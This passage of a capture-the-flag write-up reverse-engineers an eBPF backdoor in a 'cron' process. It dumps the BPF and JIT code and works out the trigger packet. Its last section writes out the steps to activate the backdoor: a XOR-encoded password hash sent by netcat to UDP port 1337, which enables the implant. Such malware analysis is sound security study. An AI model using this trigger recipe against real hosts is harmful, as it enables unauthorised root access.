root@egghunt:/# bpftool perf
pid 974  fd 9: prog_id 16  tracepoint  netif_receive_skb
pid 974  fd 10: prog_id 17  uprobe  filename /lib/x86_64-linux-gnu/libc.so.6  offset 1174224
pid 974  fd 11: prog_id 18  uretprobe  filename /lib/x86_64-linux-gnu/libc.so.6  offset 1174224
```

Confirming our assumptions, we see the `cron` process having the uprobes and the tracepoint which isn't truncated this time: `netif_receive_skb`. So the intuition is that upon receiving a packet (skb) the backdoor somehow gets enabled and populated. We will have to see how to craft such a packet.


## 4.<span id="a_part4"/> Analyzing the BPF implant in depth

Ideally, we'd want the source code for the BPF implant but probably we have to make do with the binary form. These were the characteristics already seen under bpftool:

```
16: tracepoint  name kprobe_netif_re  tag e0d014d973f44213  gpl
	loaded_at 2021-01-25T16:53:35+0000  uid 0
	xlated 2344B  jited 1544B  memlock 4096B  map_ids 4
	btf_id 5
17: kprobe  name getspnam_r_entr  tag acab388c8f8ef0f9  gpl
	loaded_at 2021-01-25T16:53:35+0000  uid 0
	xlated 336B  jited 223B  memlock 4096B  map_ids 3
	btf_id 5
18: kprobe  name getspnam_r_exit  tag ceeabb4ac5b9ed45  gpl
	loaded_at 2021-01-25T16:53:35+0000  uid 0
	xlated 328B  jited 209B  memlock 4096B  map_ids 3,4
	btf_id 5

```

The one we're targeting is program id 16: 2344 bytes translated, 1544 bytes jited. Full listing follows:

```
root@egghunt:/# bpftool prog dump xlated id 16
int kprobe_netif_receive_skb(struct netif_receive_skb_args * args):
; AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
   0: (b7) r2 = 0
; AAAAAAAAAAAAAAAAAAAAAAAAAAA
   1: (63) *(u32 *)(r10 -8) = r2
   2: (7b) *(u64 *)(r10 -16) = r2
   3: (7b) *(u64 *)(r10 -24) = r2
; AAAAAAAAAAAAAAAAAAAAAAAAAAAAA
   4: (7b) *(u64 *)(r10 -32) = r2
; AAAAAAAAAAAAAAAAAAAAAAAAAAA
   5: (7b) *(u64 *)(r10 -40) = r2
   6: (7b) *(u64 *)(r10 -48) = r2
   7: (7b) *(u64 *)(r10 -56) = r2
   8: (7b) *(u64 *)(r10 -64) = r2
   9: (7b) *(u64 *)(r10 -72) = r2
  10: (7b) *(u64 *)(r10 -80) = r2
  11: (7b) *(u64 *)(r10 -88) = r2
  12: (7b) *(u64 *)(r10 -96) = r2
  13: (7b) *(u64 *)(r10 -104) = r2
  14: (7b) *(u64 *)(r10 -112) = r2
  15: (7b) *(u64 *)(r10 -120) = r2
  16: (7b) *(u64 *)(r10 -128) = r2
  17: (7b) *(u64 *)(r10 -136) = r2
  18: (7b) *(u64 *)(r10 -144) = r2
  19: (7b) *(u64 *)(r10 -152) = r2
  20: (7b) *(u64 *)(r10 -160) = r2
  21: (7b) *(u64 *)(r10 -168) = r2
  22: (7b) *(u64 *)(r10 -176) = r2
  23: (7b) *(u64 *)(r10 -184) = r2
  24: (7b) *(u64 *)(r10 -192) = r2
  25: (7b) *(u64 *)(r10 -200) = r2
  26: (7b) *(u64 *)(r10 -208) = r2
  27: (7b) *(u64 *)(r10 -216) = r2
  28: (7b) *(u64 *)(r10 -224) = r2
  29: (7b) *(u64 *)(r10 -232) = r2
  30: (7b) *(u64 *)(r10 -240) = r2
  31: (7b) *(u64 *)(r10 -248) = r2
  32: (7b) *(u64 *)(r10 -256) = r2
; AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
  33: (79) r3 = *(u64 *)(r1 +8)
  34: (bf) r6 = r10
; 
  35: (07) r6 += -256
; AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
  36: (bf) r1 = r6
  37: (b7) r2 = 224
  38: (85) call bpf_probe_read_compat#-54752
; AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
  39: (69) r1 = *(u16 *)(r6 +180)
; AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
  40: (79) r2 = *(u64 *)(r6 +192)
; AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
  41: (bf) r6 = r2
  42: (0f) r6 += r1
; AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
  43: (15) if r2 == 0x0 goto pc+6
  44: (bf) r1 = r10
; AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
  45: (07) r1 += -24
  46: (b7) r2 = 20
  47: (bf) r3 = r6
  48: (85) call bpf_probe_read_compat#-54752
; AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
  49: (55) if r0 != 0x0 goto pc+241
  50: (bf) r1 = r10
; AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
  51: (07) r1 += -24
  52: (71) r1 = *(u8 *)(r1 +0)
; AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
  53: (57) r1 &= 240
; AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
  54: (55) if r1 != 0x40 goto pc+236
  55: (bf) r1 = r10
; AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
  56: (07) r1 += -24
  57: (71) r1 = *(u8 *)(r1 +9)
; AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
  58: (55) if r1 != 0x11 goto pc+232
  59: (bf) r1 = r10
; AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
  60: (07) r1 += -24
  61: (71) r1 = *(u8 *)(r1 +0)
  62: (57) r1 &= 15
; AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
  63: (55) if r1 != 0x5 goto pc+227
; AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
  64: (07) r6 += 20
  65: (bf) r1 = r10
  66: (07) r1 += -32
; AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
  67: (b7) r2 = 8
  68: (bf) r3 = r6
  69: (85) call bpf_probe_read_compat#-54752
; AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
  70: (55) if r0 != 0x0 goto pc+220
  71: (bf) r1 = r10
; AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
  72: (07) r1 += -32
  73: (69) r1 = *(u16 *)(r1 +2)
; AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
  74: (55) if r1 != 0x3905 goto pc+216
  75: (bf) r1 = r10
; 
  76: (07) r1 += -32
; AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
  77: (69) r1 = *(u16 *)(r1 +4)
; AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
  78: (55) if r1 != 0x2a00 goto pc+212
  79: (b7) r1 = 0
; AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
  80: (6b) *(u16 *)(r10 -264) = r1
  81: (7b) *(u64 *)(r10 -272) = r1
  82: (7b) *(u64 *)(r10 -280) = r1
  83: (7b) *(u64 *)(r10 -288) = r1
  84: (7b) *(u64 *)(r10 -296) = r1
; AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
  85: (07) r6 += 8
  86: (bf) r1 = r10
; AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
  87: (07) r1 += -296
; AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
  88: (b7) r2 = 34
  89: (bf) r3 = r6
  90: (85) call bpf_probe_read_compat#-54752
; AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
  91: (71) r1 = *(u8 *)(r10 -296)
; AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
  92: (55) if r1 != 0x66 goto pc+198
; AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
  93: (71) r1 = *(u8 *)(r10 -295)
; AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
  94: (55) if r1 != 0x73 goto pc+196
; AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
  95: (71) r1 = *(u8 *)(r10 -294)
; AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
  96: (55) if r1 != 0x66 goto pc+194
  97: (b7) r1 = 36
; AAAAAAAAAAAAAAAAAAAAAAA
  98: (73) *(u8 *)(r10 -294) = r1
  99: (b7) r1 = 12580
 100: (6b) *(u16 *)(r10 -296) = r1
 101: (71) r1 = *(u8 *)(r10 -293)
 102: (a7) r1 ^= 66
 103: (73) *(u8 *)(r10 -293) = r1
 104: (71) r1 = *(u8 *)(r10 -292)
 105: (a7) r1 ^= 66
 106: (73) *(u8 *)(r10 -292) = r1
 107: (71) r1 = *(u8 *)(r10 -291)
 108: (a7) r1 ^= 66
 109: (73) *(u8 *)(r10 -291) = r1
 110: (71) r1 = *(u8 *)(r10 -290)
 111: (a7) r1 ^= 66
 112: (73) *(u8 *)(r10 -290) = r1
 113: (71) r1 = *(u8 *)(r10 -289)
 114: (a7) r1 ^= 66
 115: (73) *(u8 *)(r10 -289) = r1
 116: (71) r1 = *(u8 *)(r10 -288)
 117: (a7) r1 ^= 66
 118: (73) *(u8 *)(r10 -288) = r1
 119: (71) r1 = *(u8 *)(r10 -287)
 120: (a7) r1 ^= 66
 121: (73) *(u8 *)(r10 -287) = r1
 122: (71) r1 = *(u8 *)(r10 -286)
 123: (a7) r1 ^= 66
 124: (73) *(u8 *)(r10 -286) = r1
 125: (71) r1 = *(u8 *)(r10 -285)
 126: (a7) r1 ^= 66
 127: (73) *(u8 *)(r10 -285) = r1
 128: (71) r1 = *(u8 *)(r10 -284)
 129: (a7) r1 ^= 66
 130: (73) *(u8 *)(r10 -284) = r1
 131: (71) r1 = *(u8 *)(r10 -283)
 132: (a7) r1 ^= 66
 133: (73) *(u8 *)(r10 -283) = r1
 134: (71) r1 = *(u8 *)(r10 -282)
 135: (a7) r1 ^= 66
 136: (73) *(u8 *)(r10 -282) = r1
 137: (71) r1 = *(u8 *)(r10 -281)
 138: (a7) r1 ^= 66
 139: (73) *(u8 *)(r10 -281) = r1
 140: (71) r1 = *(u8 *)(r10 -280)
 141: (a7) r1 ^= 66
 142: (73) *(u8 *)(r10 -280) = r1
 143: (71) r1 = *(u8 *)(r10 -279)
 144: (a7) r1 ^= 66
 145: (73) *(u8 *)(r10 -279) = r1
 146: (71) r1 = *(u8 *)(r10 -278)
 147: (a7) r1 ^= 66
 148: (73) *(u8 *)(r10 -278) = r1
 149: (71) r1 = *(u8 *)(r10 -277)
 150: (a7) r1 ^= 66
 151: (73) *(u8 *)(r10 -277) = r1
 152: (71) r1 = *(u8 *)(r10 -276)
 153: (a7) r1 ^= 66
 154: (73) *(u8 *)(r10 -276) = r1
 155: (71) r1 = *(u8 *)(r10 -275)
 156: (a7) r1 ^= 66
 157: (73) *(u8 *)(r10 -275) = r1
 158: (71) r1 = *(u8 *)(r10 -274)
 159: (a7) r1 ^= 66
 160: (73) *(u8 *)(r10 -274) = r1
 161: (71) r1 = *(u8 *)(r10 -273)
 162: (a7) r1 ^= 66
 163: (73) *(u8 *)(r10 -273) = r1
 164: (71) r1 = *(u8 *)(r10 -272)
 165: (a7) r1 ^= 66
 166: (73) *(u8 *)(r10 -272) = r1
 167: (71) r1 = *(u8 *)(r10 -271)
 168: (a7) r1 ^= 66
 169: (73) *(u8 *)(r10 -271) = r1
 170: (71) r1 = *(u8 *)(r10 -270)
 171: (a7) r1 ^= 66
 172: (73) *(u8 *)(r10 -270) = r1
 173: (71) r1 = *(u8 *)(r10 -269)
 174: (a7) r1 ^= 66
 175: (73) *(u8 *)(r10 -269) = r1
 176: (71) r1 = *(u8 *)(r10 -268)
 177: (a7) r1 ^= 66
 178: (73) *(u8 *)(r10 -268) = r1
 179: (71) r1 = *(u8 *)(r10 -267)
 180: (a7) r1 ^= 66
 181: (73) *(u8 *)(r10 -267) = r1
 182: (71) r1 = *(u8 *)(r10 -266)
 183: (a7) r1 ^= 66
 184: (73) *(u8 *)(r10 -266) = r1
 185: (71) r1 = *(u8 *)(r10 -265)
 186: (a7) r1 ^= 66
 187: (73) *(u8 *)(r10 -265) = r1
 188: (71) r1 = *(u8 *)(r10 -264)
 189: (a7) r1 ^= 66
 190: (73) *(u8 *)(r10 -264) = r1
 191: (71) r1 = *(u8 *)(r10 -263)
 192: (a7) r1 ^= 66
 193: (73) *(u8 *)(r10 -263) = r1
; AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 194: (18) r1 = map[id:4][0]+0
 196: (79) r2 = *(u64 *)(r10 -272)
 197: (bf) r3 = r2
 198: (77) r3 >>= 56
 199: (73) *(u8 *)(r1 +32) = r3
 200: (bf) r3 = r2
 201: (77) r3 >>= 48
 202: (73) *(u8 *)(r1 +31) = r3
 203: (bf) r3 = r2
 204: (77) r3 >>= 40
 205: (73) *(u8 *)(r1 +30) = r3
 206: (bf) r3 = r2
 207: (77) r3 >>= 32
 208: (73) *(u8 *)(r1 +29) = r3
 209: (bf) r3 = r2
 210: (77) r3 >>= 24
 211: (73) *(u8 *)(r1 +28) = r3
 212: (bf) r3 = r2
 213: (77) r3 >>= 16
 214: (73) *(u8 *)(r1 +27) = r3
 215: (bf) r3 = r2
 216: (77) r3 >>= 8
 217: (73) *(u8 *)(r1 +26) = r3
 218: (73) *(u8 *)(r1 +25) = r2
 219: (69) r2 = *(u16 *)(r10 -264)
 220: (73) *(u8 *)(r1 +33) = r2
 221: (77) r2 >>= 8
 222: (73) *(u8 *)(r1 +34) = r2
 223: (79) r2 = *(u64 *)(r10 -280)
 224: (bf) r3 = r2
 225: (77) r3 >>= 56
 226: (73) *(u8 *)(r1 +24) = r3
 227: (bf) r3 = r2
 228: (77) r3 >>= 48
 229: (73) *(u8 *)(r1 +23) = r3
 230: (bf) r3 = r2
 231: (77) r3 >>= 40
 232: (73) *(u8 *)(r1 +22) = r3
 233: (bf) r3 = r2
 234: (77) r3 >>= 32
 235: (73) *(u8 *)(r1 +21) = r3
 236: (bf) r3 = r2
 237: (77) r3 >>= 24
 238: (73) *(u8 *)(r1 +20) = r3
 239: (bf) r3 = r2
 240: (77) r3 >>= 16
 241: (73) *(u8 *)(r1 +19) = r3
 242: (73) *(u8 *)(r1 +17) = r2
 243: (77) r2 >>= 8
 244: (73) *(u8 *)(r1 +18) = r2
 245: (79) r2 = *(u64 *)(r10 -288)
 246: (bf) r3 = r2
 247: (77) r3 >>= 56
 248: (73) *(u8 *)(r1 +16) = r3
 249: (bf) r3 = r2
 250: (77) r3 >>= 48
 251: (73) *(u8 *)(r1 +15) = r3
 252: (bf) r3 = r2
 253: (77) r3 >>= 40
 254: (73) *(u8 *)(r1 +14) = r3
 255: (bf) r3 = r2
 256: (77) r3 >>= 32
 257: (73) *(u8 *)(r1 +13) = r3
 258: (bf) r3 = r2
 259: (77) r3 >>= 24
 260: (73) *(u8 *)(r1 +12) = r3
 261: (bf) r3 = r2
 262: (77) r3 >>= 16
 263: (73) *(u8 *)(r1 +11) = r3
 264: (73) *(u8 *)(r1 +9) = r2
 265: (77) r2 >>= 8
 266: (73) *(u8 *)(r1 +10) = r2
 267: (79) r2 = *(u64 *)(r10 -296)
 268: (bf) r3 = r2
 269: (77) r3 >>= 56
 270: (73) *(u8 *)(r1 +8) = r3
 271: (bf) r3 = r2
 272: (77) r3 >>= 48
 273: (73) *(u8 *)(r1 +7) = r3
 274: (bf) r3 = r2
 275: (77) r3 >>= 40
 276: (73) *(u8 *)(r1 +6) = r3
 277: (bf) r3 = r2
 278: (77) r3 >>= 32
 279: (73) *(u8 *)(r1 +5) = r3
 280: (bf) r3 = r2
 281: (77) r3 >>= 24
 282: (73) *(u8 *)(r1 +4) = r3
 283: (bf) r3 = r2
 284: (77) r3 >>= 16
 285: (73) *(u8 *)(r1 +3) = r3
 286: (73) *(u8 *)(r1 +1) = r2
 287: (77) r2 >>= 8
 288: (73) *(u8 *)(r1 +2) = r2
 289: (b7) r2 = 1
; AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 290: (73) *(u8 *)(r1 +0) = r2
; AAAAAAAAAAA
 291: (b7) r0 = 0
 292: (95) exit
root@egghunt:/# bpftool prog dump jited id 16
Error: No libbfd support
```

You're probably wondering what those AAAA's are doing there. Here's the answer when switching the output to json format:

```
root@egghunt:/# bpftool prog dump xlated id 16 -j | python3 -m json.tool | head -n 50
[
    {
        "proto": "int kprobe_netif_receive_skb(struct netif_receive_skb_args * args)",
        "src": "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA",
        "disasm": "(b7) r2 = 0"
    },
    {
        "src": "AAAAAAAAAAAAAAAAAAAAAAAAAAA",
        "disasm": "(63) *(u32 *)(r10 -8) = r2"
    },
    {
        "disasm": "(7b) *(u64 *)(r10 -16) = r2"
    },
    {
        "disasm": "(7b) *(u64 *)(r10 -24) = r2"
    },
    {
        "src": "AAAAAAAAAAAAAAAAAAAAAAAAAAAAA",
        "disasm": "(7b) *(u64 *)(r10 -32) = r2"
    },
    {
        "src": "AAAAAAAAAAAAAAAAAAAAAAAAAAA",
        "disasm": "(7b) *(u64 *)(r10 -40) = r2"
    },
    {
        "disasm": "(7b) *(u64 *)(r10 -48) = r2"
    },
    {
        "disasm": "(7b) *(u64 *)(r10 -56) = r2"
    },
    {
        "disasm": "(7b) *(u64 *)(r10 -64) = r2"
    },
    {
        "disasm": "(7b) *(u64 *)(r10 -72) = r2"
    },
    {
        "disasm": "(7b) *(u64 *)(r10 -80) = r2"
    },
    {
        "disasm": "(7b) *(u64 *)(r10 -88) = r2"
    },
    {
        "disasm": "(7b) *(u64 *)(r10 -96) = r2"
    },
    {
        "disasm": "(7b) *(u64 *)(r10 -104) = r2"
    },
    {
        "disasm": "(7b) *(u64 *)(r10 -112) = r2"

```
There seems to have been source code but somebody went to great lengths to remove it. How unfortunate! Moreover, the jited code is unavailable so we're stuck with this messy translated code. Of course, this can be reversed but it would not be as elegant and fast as I'd like. How long would it take you to fully comprehend the whole function?

But are we really stuck with the translated code? The error says `No libbfd support`. So let's fix that, shall we?

```
root@egghunt:/tmp/build# apt-file search `which bpftool`
linux-5.7-tools-common: /usr/sbin/bpftool 
linux-tools-common: /usr/sbin/bpftool
root@egghunt:/tmp/build# apt-get install dpkg-source-gitarchive 
...
root@egghunt:/tmp/build# apt-get source linux-5.7-tools-common
...
root@egghunt:/tmp/build/linux-5.7-5.7.0/tools/bpf/bpftool# apt-get install libelf-dev binutils-dev zlib1g-dev libunwind-dev
...
root@egghunt:/tmp/build/linux-5.7-5.7.0/tools/bpf/bpftool# ./bpftool prog dump jited id 16
int kprobe_netif_receive_skb(struct netif_receive_skb_args * args):
bpf_prog_e0d014d973f44213_kprobe_netif_receive_skb:
; AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
   0:	nopl   0x0(%rax,%rax,1)
   5:	push   %rbp
   6:	mov    %rsp,%rbp
   9:	sub    $0x128,%rsp
  10:	push   %rbx
  11:	push   %r13
  13:	push   %r14
  15:	push   %r15
  17:	pushq  $0x0
  19:	xor    %esi,%esi
; AAAAAAAAAAAAAAAAAAAAAAAAAAA
  1b:	mov    %esi,-0x8(%rbp)
  1e:	mov    %rsi,-0x10(%rbp)
  22:	mov    %rsi,-0x18(%rbp)
; AAAAAAAAAAAAAAAAAAAAAAAAAAAAA
  26:	mov    %rsi,-0x20(%rbp)
; AAAAAAAAAAAAAAAAAAAAAAAAAAA
  2a:	mov    %rsi,-0x28(%rbp)
...
; AAAAAAAAAAA
 5fc:	xor    %eax,%eax
 5fe:	pop    %rbx
 5ff:	pop    %r15
 601:	pop    %r14
 603:	pop    %r13
 605:	pop    %rbx
 606:	leaveq 
 607:	retq   

```

There we go, now we're back to reversing x86 code; that is if we can get it in binary form somehow. I tried assembling this code using `as` but some instructions were translated shorter or longer than the ones in the listing (the offsets give away the instruction length) so the jumps were all jumbled. There are no options to just get the binary code from the kernel memory instead of going through bpftool, if you know of a more straightforward way than what I'm about to do next, let me know with an issue or something.

Now, since a disassembler was definitely needed, the x86 code must be hidden somewhere, let's check the source code for the routine actually doing disassembly line printing:

```c
void disasm_print_insn(unsigned char *image, ssize_t len, int opcodes,
                       const char *arch, const char *disassembler_options,
                       const struct btf *btf,
                       const struct bpf_prog_linfo *prog_linfo,
                       __u64 func_ksym, unsigned int func_idx,
                       bool linum)
{
```

This looks like the right function.

```
root@egghunt:/tmp/build/linux-5.7-5.7.0/tools/bpf/bpftool# gdb -q --args ./bpftool prog dump jited id 16  
Reading symbols from ./bpftool...
(gdb) b *disasm_print_insn
Breakpoint 1 at 0x19bc0: file jit_disasm.c, line 81.
(gdb) run
Starting program: /tmp/build/linux-5.7-5.7.0/tools/bpf/bpftool/bpftool prog dump jited id 16
int kprobe_netif_receive_skb(struct netif_receive_skb_args * args):
bpf_prog_e0d014d973f44213_kprobe_netif_receive_skb:

Breakpoint 1, disasm_print_insn (image=image@entry=0x5555556b73a0 "\017\037D", len=1544, opcodes=opcodes@entry=0, arch=arch@entry=0x0, disassembler_options=0x0, btf=0x5555556b9790, prog_linfo=0x5555556b7dc0, 
    func_ksym=18446744072644356368, func_idx=0, linum=false) at jit_disasm.c:81
81	{

# so image is at 0x5555556b73a0, ending at 0x5555556b73a0 + 1544

(gdb) dump memory /tmp/prog16 0x5555556b73a0 0x5555556b79a8

root@egghunt:/tmp/build/linux-5.7-5.7.0/tools/bpf/bpftool# stat /tmp/prog16
  File: /tmp/prog16
  Size: 1544      	Blocks: 8          IO Block: 4096   regular file
Device: 802h/2050d	Inode: 5661        Links: 1
Access: (0644/-rw-r--r--)  Uid: (    0/    root)   Gid: (    0/    root)
Access: 2021-01-25 19:58:37.818378073 +0000
Modify: 2021-01-25 19:58:37.818378073 +0000
Change: 2021-01-25 19:58:37.818378073 +0000
 Birth: 2021-01-25 19:58:37.818378073 +0000
```

Since this is raw x86 code we'll embed it in an ELF using pwntools to fire up IDA on it:

```python
from pwn import *
context.arch = "amd64"
input = read("/tmp/prog16")
e = ELF.from_bytes(input , vma=0x1000000 )
e.save("prog16.elf")
```

Here's the result of that:

  


And now for the final touch, we will sprinkle some IDA magic by adding in all of the structures. We obtain them through btf:

```c
root@egghunt:~# bpftool btf dump id 5 format c
#ifndef __VMLINUX_H__
#define __VMLINUX_H__

#ifndef BPF_NO_PRESERVE_ACCESS_INDEX
#pragma clang attribute push (__attribute__((preserve_access_index)), apply_to = record)
#endif

typedef long long unsigned int __u64;

typedef __u64 u64;

struct trace_entry {
	unsigned short type;
	unsigned char flags;
	unsigned char preempt_count;
	int pid;
};

struct netif_receive_skb_args {
	struct trace_entry ent;
	void *skbaddr;
	unsigned int len;
	char name[0];
};

struct net_device;

struct rb_node {
	long unsigned int __rb_parent_color;
	struct rb_node *rb_right;
	struct rb_node *rb_left;
};

struct list_head {
	struct list_head *next;
	struct list_head *prev;
};

struct sock;

typedef long long int __s64;

typedef __s64 s64;

typedef s64 ktime_t;

typedef unsigned short __u16;

typedef unsigned char __u8;

typedef unsigned int __u32;

typedef __u32 __wsum;

typedef __u16 __be16;

typedef unsigned int sk_buff_data_t;

typedef struct {
	int counter;
} atomic_t;

struct refcount_struct {
	atomic_t refs;
};

typedef struct refcount_struct refcount_t;

struct skb_ext;

struct sk_buff {
	union {
		struct {
			struct sk_buff *next;
			struct sk_buff *prev;
			union {
				struct net_device *dev;
				long unsigned int dev_scratch;
			};
		};
		struct rb_node rbnode;
		struct list_head list;
	};
	union {
		struct sock *sk;
		int ip_defrag_offset;
	};
	union {
		ktime_t tstamp;
		u64 skb_mstamp_ns;
	};
	char cb[48];
	union {
		struct {
			long unsigned int _skb_refdst;
			void (*destructor)(struct sk_buff *);
		};
		struct list_head tcp_tsorted_anchor;
	};
	long unsigned int _nfct;
	unsigned int len;
	unsigned int data_len;
	__u16 mac_len;
	__u16 hdr_len;
	__u16 queue_mapping;
	__u8 __cloned_offset[0];
	__u8 cloned: 1;
	__u8 nohdr: 1;
	__u8 fclone: 2;
	__u8 peeked: 1;
	__u8 head_frag: 1;
	__u8 pfmemalloc: 1;
	__u8 active_extensions;
	__u32 headers_start[0];
	__u8 __pkt_type_offset[0];
	__u8 pkt_type: 3;
	__u8 ignore_df: 1;
	__u8 nf_trace: 1;
	__u8 ip_summed: 2;
	__u8 ooo_okay: 1;
	__u8 l4_hash: 1;
	__u8 sw_hash: 1;
	__u8 wifi_acked_valid: 1;
	__u8 wifi_acked: 1;
	__u8 no_fcs: 1;
	__u8 encapsulation: 1;
	__u8 encap_hdr_csum: 1;
	__u8 csum_valid: 1;
	__u8 __pkt_vlan_present_offset[0];
	__u8 vlan_present: 1;
	__u8 csum_complete_sw: 1;
	__u8 csum_level: 2;
	__u8 csum_not_inet: 1;
	__u8 dst_pending_confirm: 1;
	__u8 ndisc_nodetype: 2;
	__u8 ipvs_property: 1;
	__u8 inner_protocol_type: 1;
	__u8 remcsum_offload: 1;
	__u8 tc_skip_classify: 1;
	__u8 tc_at_ingress: 1;
	__u8 tc_redirected: 1;
	__u8 tc_from_ingress: 1;
	__u16 tc_index;
	union {
		__wsum csum;
		struct {
			__u16 csum_start;
			__u16 csum_offset;
		};
	};
	__u32 priority;
	int skb_iif;
	__u32 hash;
	__be16 vlan_proto;
	__u16 vlan_tci;
	union {
		unsigned int napi_id;
		unsigned int sender_cpu;
	};
	__u32 secmark;
	union {
		__u32 mark;
		__u32 reserved_tailroom;
	};
	union {
		__be16 inner_protocol;
		__u8 inner_ipproto;
	};
	__u16 inner_transport_header;
	__u16 inner_network_header;
	__u16 inner_mac_header;
	__be16 protocol;
	__u16 transport_header;
	__u16 network_header;
	__u16 mac_header;
	__u32 headers_end[0];
	sk_buff_data_t tail;
	sk_buff_data_t end;
	unsigned char *head;
	unsigned char *data;
	unsigned int truesize;
	refcount_t users;
	struct skb_ext *extensions;
};

typedef __u16 __sum16;

typedef __u32 __be32;

struct iphdr {
	__u8 ihl: 4;
	__u8 version: 4;
	__u8 tos;
	__be16 tot_len;
	__be16 id;
	__be16 frag_off;
	__u8 ttl;
	__u8 protocol;
	__sum16 check;
	__be32 saddr;
	__be32 daddr;
};

struct udphdr {
	__be16 source;
	__be16 dest;
	__be16 len;
	__sum16 check;
};

struct pt_regs {
	long unsigned int r15;
	long unsigned int r14;
	long unsigned int r13;
	long unsigned int r12;
	long unsigned int bp;
	long unsigned int bx;
	long unsigned int r11;
	long unsigned int r10;
	long unsigned int r9;
	long unsigned int r8;
	long unsigned int ax;
	long unsigned int cx;
	long unsigned int dx;
	long unsigned int si;
	long unsigned int di;
	long unsigned int orig_ax;
	long unsigned int ip;
	long unsigned int cs;
	long unsigned int flags;
	long unsigned int sp;
	long unsigned int ss;
};

typedef _Bool bool;

struct backdoor_hash {
	bool enabled;
	char hash[35];
};

#ifndef BPF_NO_PRESERVE_ACCESS_INDEX
#pragma clang attribute pop
#endif

#endif /* __VMLINUX_H__ */
```

And the result is the following:



...



## 5.<span id="a_part5"/> Using the backdoor

We know we have to:
 - write a payload on UDP port 1337
 - having _total_ length 42 (0x002a); so 8 (header len) + 34 (payload len)
 - it should start with 0x66, 0x73, 0x66 which is `fsf` and this is actually `$1$` xored with 0x42
 
This will trigger the backdoor to write it into the map and set the enabled flag to true. Let's black box the other two bpf programs and just try things out. First, we generate a hash and write it xored to a file. Next we push it using netcat to port 1337 on UDP.

```
root@egghunt:~# openssl passwd -1 djdtyhkerhgkehrkfhwkghwrhgeger
$1$lUnHCS.r$oqlVYJT96delM2vRspxYp1
root@egghunt:~# python3
Python 3.8.6 (default, Sep 25 2020, 09:36:53) 
[GCC 10.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> xored = bytearray([i ^ 0x42 for i in bytearray(b"$1$lUnHCS.r$oqlVYJT96delM2vRspxYp1")])
>>> open("xored", "wb").write(xored)
34
root@egghunt:/# bpftool map dump id 4
[{
        "value": {
            ".bss": [{
                    "backdoor": {
                        "enabled": false,
                        "hash": ""
                    }
                }
            ]
        }
    }
]
root@egghunt:~# nc -u 127.0.0.1 1337 < xored 
root@egghunt:~# bpftool map dump id 4
[{
        "value": {
            ".bss": [{
                    "backdoor": {
                        "enabled": true,
                        "hash": "$1$lUnHCS.r$oqlVYJT96delM2vRspxYp1"
                    }
                }
            ]
        }
    }
]

```
